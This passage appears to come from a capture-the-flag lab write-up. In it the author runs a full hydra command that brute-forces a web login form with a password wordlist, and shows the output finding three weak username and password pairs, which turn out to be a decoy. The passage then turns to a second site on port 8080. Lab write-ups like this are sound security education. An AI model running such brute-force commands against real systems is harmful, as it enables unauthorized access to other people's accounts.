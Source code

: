 I'll use that as my failure criteria, and run `hydra`:



    root@kali# hydra -L users -P /usr/share/seclists/Passwords/twitter-banned.txt 10.10.10.101 http-post-form "/users/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Invalid Login Detai
    ls"
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-18 16:11:19
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 4367 login tries (l:11/p:397), ~273 tries per task
    [DATA] attacking http-post-form://10.10.10.101:80/users/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Invalid Login Details                                                                                       
    [80][http-post-form] host: 10.10.10.101   login: noro   password: password123
    [80][http-post-form] host: 10.10.10.101   login: kaneki   password: 123456
    [STATUS] 1360.00 tries/min, 1360 tries in 00:01h, 3007 to do in 00:03h, 16 active
    [STATUS] 1120.00 tries/min, 2240 tries in 00:02h, 2127 to do in 00:02h, 16 active
    [STATUS] 1038.33 tries/min, 3115 tries in 00:03h, 1252 to do in 00:02h, 16 active
    [80][http-post-form] host: 10.10.10.101   login: admin   password: abcdef
    [STATUS] 1086.50 tries/min, 4346 tries in 00:04h, 21 to do in 00:01h, 16 active
    1 of 1 target successfully completed, 3 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-18 16:15:21



I find three valid logins, but unfortunately, it is just is a troll:

![](/img/1558210387826.png)

### Website - TCP 8080

Visiting prompts for auth:

![](/img/1558187824401.png)
